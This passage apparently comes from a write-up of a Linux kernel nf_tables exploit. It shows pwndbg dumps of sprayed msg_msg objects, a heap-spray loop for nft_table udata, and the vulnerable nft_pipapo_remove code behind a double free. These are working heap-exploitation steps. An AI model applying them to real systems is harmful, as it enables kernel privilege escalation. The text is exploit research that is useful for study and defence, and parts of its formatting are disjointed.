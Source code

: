 ```c
```

To better understand how we obtain the overlapping `nft_table->udata`, we can inspect it directly using `GDB`. However, I prefer to analyze it in more detail from the beginning, such as examining the `msg_msg` objects that we initially sprayed in GDB.

```bash
pwndbg> x/20gx msg

0xffff88810025a800:	0x0000000000000000	0x0000000000000000 -> msg->m_list 
0xffff88810025a810:	0x0000000000000041	0x00000000000000b8 -> 0x41 msg->mtype(MTYPE_PRIMARY) and 0xb8 = 0xe8 - 0x30... (232 - 48)
0xffff88810025a820:	0x0000000000000000	0x0000000000000000
0xffff88810025a830:	0x0000000000000000	0xdeadbeefcafebabe -> msg->mtext[8] in our exploit

pwndbg> x/40gx msg

0xffff8881041d1c00:	0xffff888102afd100	0xffff888102afd100 -> msg->m_list 
0xffff8881041d1c10:	0x0000000000000042	0x00000000000003d0 -> 0x42 msg->mtype(MTYPE_SECONDARY) and 0x3d0 = 0x400 - 0x30... (1024 - 48)
0xffff8881041d1c20:	0x0000000000000000	0x0000000000000000
0xffff8881041d1c30:	0x0000000000000000	0xdeadbeefcafebabe

```

Although this is not too important to examine, I always prefer to see everything as clearly and in detail as possible. Now, let's take a look at our vulnerable function, how the vulnerability occurs, leading to a double free on the `element` and resulting in duplicate `nft_table->udata`:

To ensure consistency, our user data `elements` are assigned the value 0x41, with keys 0x41 (`Element` A) and 0x42 (`Element` B). As a result, the two `nft_table` instances will receive two udata values with the same data due to the double free on the element.

Additionally, in the `udata_spray` function that we used to spray the three `nft_table->udat`a instances earlier, the values in udata start from 0x30 to 0x32.

```c
...
for (int i = start; i < start + count; i++)
    {
        if (!data)
        {
            memset(udata_buf, 0x30 + i, size);
        }
        snprintf(spray_name, sizeof(spray_name), "spray-%i", i);
        nftnl_table_free(create_table(batch, seq++, spray_name, dptr, size));
    }
...
```
So, now let's check our gdb again:

```bash

static void nft_pipapo_remove(const struct net *net, const struct nft_set *set,
			      const struct nft_set_elem *elem)
{
	struct nft_pipapo *priv = nft_set_priv(set);
	struct nft_pipapo_match *m = priv->clone;
	struct nft_pipapo_elem *e = elem->priv;
	int rules_f0, first_rule = 0;
	const u8 *data;

	data = (const u8 *)nft_set_ext_key(&e->ext);

->	e = pipapo_get(net, set, data, 0);
	if (IS_ERR(e))
		return;
```